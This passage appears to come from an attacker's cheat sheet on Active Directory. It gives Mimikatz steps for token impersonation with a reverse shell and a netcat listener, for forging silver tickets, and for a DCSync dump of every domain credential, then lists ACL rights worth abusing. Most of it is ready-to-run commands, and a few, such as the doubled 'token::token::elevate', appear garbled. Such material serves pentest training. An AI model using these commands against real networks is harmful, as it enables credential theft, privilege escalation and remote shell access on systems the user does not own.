 **Steps**:
1. `mimikatz.exe`
2. `privilege::debug`
3. token enumeration on the machine: `token::list`
4. impersonate privileged user: `token::token::elevate /domainadmin` or `token::token::elevate /user:<USERNAME>`
5. upload executable reverse shell
6. *netcat* listener: `nc -nvlp 80`
7. get a shell with the impersonated user: `token::run /process:"C:\absolute\path\to\shell.exe"`

### SilverTicketsMimikatz

**Requirements**: compromise of an account associated with a service and we are able to issue TGS. This can be useful when you need to access the service or a resource at an Application Server and need to impersonate a privileged user.

**Steps**:
1. `mimikatz.exe`
2. `privilege::debug`
3. `kerberos::golden /sid:<DOMAIN SID> /domain:<DOMAIN NAME> /ptt /target:<FULL TARGET SPN> /service:<SPN PROTOCOL> /rc4:<SERVICE ACCOUNT HASH NT> /user:<PRIVILEGED USERNAME TO IMPERSONATE>`
4. **NB**: to take advantage of the silver ticket injected in memory, we need comunicate with the target via ***hostname*** (use of hostname forces Kerberos authentication)

To delete all tickets injected with *mimikatz*: `kerberos::purge`. 

### DCSyncMimikatz

**Requirements**:
- user Domain Admins group's member
- a shell on Domain Controller

**Steps**:
1. `mimikatz.exe`
2. (*all users*) `lsadump::dcsync /dc:<HOSTNAME DC>.<DOMAIN NAME> /domain:<DOMAIN NAME> /all`
3. (*specified user*) `lsadump::dcsync /domain:<DOMAIN NAME> /user:<USERNAME>`

## AbusingACL/ACE

From an attacker's point of view, regarding permissions related to Active Directory objects, we are interessed in the following privileges:
- **GenericAll**: 
	- full control on the object
- **GenericWrite**: 
	- allow to modifying any unprotected parameter. For example, you can edit _scriptPath_ parameter, which causes a certain script to be executed the next time the user logs on. As alternative, such privilege allows adding users to a group
- **WriteOwner**: 
	- allow to edit object's owner
- **WriteDACL**: 
	- allow to write new ACE regarding DACL of a object. For example, we can add an ACE that allows us full control on the target object
- **AllExtendedRights**: 
	- allow any action associated with extended AD permissions to be forced towards an object. This can be include the possibility of forcing a change of user's password
- **ForceChangePassword**: 
	- allow to force a change of user's password without prompting current
- **Self(Self-Membership)**: 
	-  allow to add ourselves to a group
